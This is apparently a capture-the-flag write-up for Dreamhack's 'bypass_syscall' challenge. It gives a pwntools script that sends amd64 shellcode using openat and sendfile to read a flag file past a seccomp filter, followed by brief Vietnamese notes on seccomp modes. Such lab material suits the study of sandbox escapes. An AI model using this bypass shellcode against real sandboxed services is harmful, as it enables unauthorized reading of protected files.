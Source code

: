 
```
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

#p = process('./bypass_syscall')
p = remote('host1.dreamhack.games', 16778)

p.recv()

payload = '''
xor rax, rax
push rax
mov rax, 0x67616c662f2e
push rax
mov rdi, 0xffffffffffffff9c
mov rsi, rsp
xor rdx, rdx
mov rax, 0x101
syscall         # openat(AT_FDCWD, "./flag")
mov rdi, 0x1
mov rsi, rax
xor rdx, rdx
mov r10, 0x40
mov rax, 0x28
syscall         # sendfile(1, fd, 0, 0x40)
'''

pause()
p.send(asm(payload))
print(p.recv())

p.interactive()

```

ref: 
https://keksite.in/posts/Seccomp-Bypass/


-----------------


2 . SECCOMP
---------

bài này liên quan đến seccomp , 1 tính năng sandbox của linux , seccomp là 1 chức năng lọc các syscall cụ thể trong kernel linux , cung cấp cấp chức năng ngăn chặn việc sử dụng các chức năng cụ thể hoặc hạn chế chỉ sử dụng các chức năng cụ thể .

- có 2 loại seccomp
    - `STRICT_MODE`  chỉ cho phép các syscall đọc ghi , thoát và sigreturn các cuộc gọi hệ
    - `FILTER_MODE` cho phép nhà phát triển định cấu hình bộ lọc cho các chức năng cụ thể và vận hành chúng theo phương thức danh sách cho phép hoặc danh sách từ chối.

